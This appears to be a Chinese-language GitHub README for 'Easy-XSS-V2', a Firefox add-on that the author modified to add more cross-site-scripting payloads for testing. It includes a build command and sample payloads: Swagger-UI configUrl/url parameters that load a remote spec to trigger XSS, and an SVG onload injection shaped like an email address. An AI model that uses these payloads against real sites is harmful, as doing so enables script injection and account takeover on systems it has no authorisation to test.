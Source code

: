 # Easy-XSS-V2

在使用EasyXSS的时候发现，payloads太少，所以萌生出了添加payloads的想法
原版（https://addons.mozilla.org/zh-CN/firefox/addon/easy-xss/）

![图片](https://user-images.githubusercontent.com/54035968/177011717-a5a2149f-b6d6-44a4-bb35-5cf45be69d3d.png)


以这个为原型找了下他的源代码，往上添加了一些自己常用的payloads

修改后
![图片](https://user-images.githubusercontent.com/54035968/177011780-85f549c6-a80d-4a95-9a92-11a57a409bb6.png)
不会太嘈杂，也好用一些


为了堵住嘴，我把修改后的代码放在了github上，可以看见很简单，也很好改动


如果你不信任我，那么请自己编译，然后自己添加到附件

zip -r ../XSS.xpi *


现在正在审核吧

![图片](https://user-images.githubusercontent.com/54035968/177011926-b9947d78-187a-43db-a1b2-de3f55292dd8.png)

审核结束应该就可以从市场看见了


为了给朋友使用，所以我在火狐插件上传了它，当然你如果有一些常用的payloads可以分享给我，然后我添加，或者自己添加

写于2022年7月3日晚上，几分钟就改好了

payloads解释
?configUrl=https://jumpy-floor.surge.sh/test.json
?url=https://jumpy-floor.surge.sh/test.yaml

这两个可能有的朋友没见过

请阅读这个文章
https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/#newsletter
Swagger-UI XSS

![图片](https://user-images.githubusercontent.com/54035968/177012301-548a5193-bc31-4496-b1bc-c269ee63947b.png)

基于电子邮件的格式的payloads
"><svg/onload=confirm(1)>"@x.y


剩下的应该可以看懂吧










